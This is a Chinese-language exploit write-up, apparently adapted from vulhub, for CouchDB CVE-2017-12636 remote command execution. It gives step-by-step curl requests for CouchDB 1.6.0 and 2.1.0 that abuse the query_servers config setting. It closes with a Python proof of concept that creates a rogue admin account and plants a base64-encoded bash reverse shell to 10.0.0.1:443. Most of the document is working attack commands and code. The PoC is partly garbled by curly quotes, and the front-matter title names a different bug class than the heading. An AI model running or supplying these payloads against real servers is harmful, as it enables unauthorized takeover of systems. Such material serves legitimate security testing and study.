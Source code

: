 ```yaml
---
title: "（CVE-2017-12636）Couchdb 垂直权限绕过漏洞"
id: zhfly2857
---
```


# （CVE-2017-12636）Couchdb 任意命令执行漏洞

## 一、漏洞简介

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12636是一个任意命令执行漏洞，我们可以通过config api修改couchdb的配置`query_server`，这个配置项在设计、执行view的时候将被运行。

## 二、漏洞影响

小于 1.7.0 以及 小于 2.1.1

## 三、复现过程

### 环境搭建

Couchdb 2.x和和1.x的API接口有一定区别，所以这个漏洞的利用方式也不同。本环境启动的是1.6.0版本，如果你想测试2.1.0版本，可以启动[CVE-2017-12635](https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12635)附带的环境。

执行如下命令启动Couchdb 1.6.0环境：

```
docker-compose up -d 
```

启动完成后，访问`http://www.0-sec.org:5984/`即可看到Couchdb的欢迎页面。

### 漏洞复现

该漏洞是需要登录用户方可触发，如果不知道目标管理员密码，可以利用**CVE-2017-12635**先增加一个管理员用户。

#### 1.6.0 下的说明

依次执行如下请求即可触发任意命令执行：

```
curl -X PUT 'http://vulhub:vulhub@www.0-sec.org:5984/_config/query_servers/cmd' -d '"id >/tmp/success"'
curl -X PUT 'http://vulhub:vulhub@www.0-sec.org:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@www.0-sec.org:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
curl -X POST 'http://vulhub:vulhub@www.0-sec.org:5984/vultest/_temp_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json' 
```

其中,`vulhub:vulhub`为管理员账号密码。

第一个请求是添加一个名字为`cmd`的`query_servers`，其值为`"id >/tmp/success"`，这就是我们后面待执行的命令。

第二、三个请求是添加一个Database和Document，这里添加了后面才能查询。

第四个请求就是在这个Database里进行查询，因为我将language设置为`cmd`，这里就会用到我第一步里添加的名为`cmd`的`query_servers`，最后触发命令执行。

#### 2.1.0 下的说明

2.1.0中修改了我上面用到的两个API，这里需要详细说明一下。

Couchdb 2.x 引入了集群，所以修改配置的API需要增加node name。这个其实也简单，我们带上账号密码访问`/_membership`即可：

```
curl http://vulhub:vulhub@www.0-sec.org:5984/_membership 
```

![image](../img/74ca4199e94d58ba860c1ec639f01f6f.png)

可见，我们这里只有一个node，名字是`nonode@nohost`。

然后，我们修改`nonode@nohost`的配置：

```
curl -X PUT http://vulhub:vulhub@www.0-sec.org:5984/_node/nonode@nohost/_config/query_servers/cmd -d '"id >/tmp/success"' 
```

![image](../img/cc0412777848ce0cd53eeceb72f49858.png)

然后，与1.6.0的利用方式相同，我们先增加一个Database和一个Document：

```
curl -X PUT 'http://vulhub:vulhub@www.0-sec.org:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@www.0-sec.org:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}' 
```

Couchdb 2.x删除了`_temp_view`，所以我们为了触发`query_servers`中定义的命令，需要添加一个`_view`：

```
curl -X PUT http://vulhub:vulhub@www.0-sec.org:5984/vultest/_design/vul -d '{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}' -H "Content-Type: application/json" 
```

增加`_view`的同时即触发了`query_servers`中的命令。

### poc

> 修改其中的target和command为你的测试机器，然后修改version为对应的Couchdb版本（1或2），成功反弹shell：

![image](../img/63fcb2c996c163745af12800595758df.png)

```
#!/usr/bin/env python3
import requests
import json
import base64
from requests.auth import HTTPBasicAuth

target = ‘[http://your-ip:5984](http://your-ip:5984)’

command = rb""“sh -i >& /dev/tcp/10.0.0.1/443 0>&1"”"

version = 1

session = requests.session()

session.headers = {

‘Content-Type’: ‘application/json’

}

# session.proxies = {

# ‘http’: ‘[http://127.0.0.1:8085](http://127.0.0.1:8085)’

# }

session.put(target + ‘/_users/org.couchdb.user:wooyun’, data=’’’{

“type”: “user”,

“name”: “wooyun”,

“roles”: ["_admin"],

“roles”: [],

“password”: “wooyun”

}’’’)

session.auth = HTTPBasicAuth(‘wooyun’, ‘wooyun’)

command = “bash -c ‘{echo,%s}|{base64,-d}|{bash,-i}’” % base64.b64encode(command).decode()

if version == 1:

session.put(target + (’/_config/query_servers/cmd’), data=json.dumps(command))

else:

host = session.get(target + ‘/_membership’).json()[‘all_nodes’][0]

session.put(target + ‘/_node/{}/_config/query_servers/cmd’.format(host), data=json.dumps(command))

session.put(target + ‘/wooyun’)

session.put(target + ‘/wooyun/test’, data=’{"_id": “wooyuntest”}’) `if version == 1:

session.post(target + ‘/wooyun/_temp_view?limit=10’, data=’{“language”:“cmd”,“map”:""}’)

else:

session.put(target + ‘/wooyun/_design/test’, data=’{"_id":"_design/test",“views”:{“wooyun”:{“map”:""} },“language”:“cmd”}’)` 
```

## 参考链接

> https://vulhub.org/#/environments/couchdb/CVE-2017-12636/